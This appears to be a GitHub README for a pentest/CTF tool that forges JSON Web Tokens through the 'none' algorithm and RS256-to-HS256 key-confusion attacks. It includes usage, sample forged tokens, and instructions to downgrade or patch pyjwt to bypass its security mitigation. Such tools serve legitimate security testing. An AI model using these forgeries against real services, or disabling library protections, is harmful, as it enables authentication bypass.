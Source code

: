 # jwtools

This script implements **known trivial attacks against JSON Web Tokens** in order to test implementations encountered during CTFs or pentests.

It is possible to:

* Decode a JWT
* Replace the signing algorithm with 'none'
* Change the signing algorithm from 'RS256' to 'HS256' and use a public key to sign the token

## Dependency

### Recommended

This script relies on **pyjwt version 0.4.3** module. You can install it with the following:

```
$ pip install pyjwt==0.4.3
```

### Alternative

If you want to use the latest version of pyjwt, you will have to patch the library code. Developpers have added a "security mitigation" which prevents the user from signing a JWT with a public key. In order to bypass this restriction, you can replace the code of **prepare_key()** in ~/.local/lib/python2.7/site-packages/jwt/algorithms.py with the following:

BEFORE

![Original prepare_key](./screens/original_prepare_key.png)

AFTER

![Modified prepare_key](./screens/modified_prepare_key.png)

## Usage

```bash
$ python jwtools.py -h
usage: ./jwtools.py [-h] [-v] [-p PUBLIC] token {info,to-none,to-hs256}

Known attacks against JSON Web Tokens in order to test implementations security.

positional arguments:
  token                 The JWT you want to modify.
  {info,to-none,to-hs256}
                        info: displays decoded token content.
                        to-none: replaces token 'alg' field with 'none'.
                        to-hs256: replaces token 'alg' field with 'HS256' and signs it with given public key.

optional arguments:
  -h, --help            show this help message and exit
  -v, --version         show program's version number and exit
  -p PUBLIC, --public PUBLIC
                        The public key associated with the token
```

## Examples

* info

```bash
$ python jwtools.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmb2xsb3ciOiJib2l0ZWFrbG91In0.G-N1qBVvkvmC_p6MQ-99LQBX1cR0t40ANvP3HrIOs5I info

[+] Decoded token
        Header: {"alg":"HS256","typ":"JWT"}
        Payload: {"follow":"boiteaklou"}
```

* to-none

```bash
$ python jwtools.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmb2xsb3ciOiJib2l0ZWFrbG91In0.G-N1qBVvkvmC_p6MQ-99LQBX1cR0t40ANvP3HrIOs5I to-none

[+] Signature algorithm successfuly changed to 'none'.
[+] New token: eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJmb2xsb3ciOiJib2l0ZWFrbG91In0

$ python jwtools.py eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJmb2xsb3ciOiJib2l0ZWFrbG91In0 info

[+] Decoded token
        Header: {"alg":"none","typ":"JWT"}
        Payload: {"follow":"boiteaklou"}
```

* to-hs256

```bash
$ python jwtools.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmb2xsb3ciOiJib2l0ZWFrbG91In0.G-N1qBVvkvmC_p6MQ-99LQBX1cR0t40ANvP3HrIOs5I --public public.pem to-hs256

[+] Signature algorithm successfuly changed to 'HS256'.
[+] New token signed with public key: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmb2xsb3ciOiJib2l0ZWFrbG91In0.Q64GJHgp-f1pYb4a75aaBNkbiRqnwGGuffsOG8_CjmQ

$ python jwtools.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmb2xsb3ciOiJib2l0ZWFrbG91In0.Q64GJHgp-f1pYb4a75aaBNkbiRqnwGGuffsOG8_CjmQ info

[+] Decoded token
        Header: {"alg":"HS256","typ":"JWT"}
        Payload: {"follow":"boiteaklou"}
```
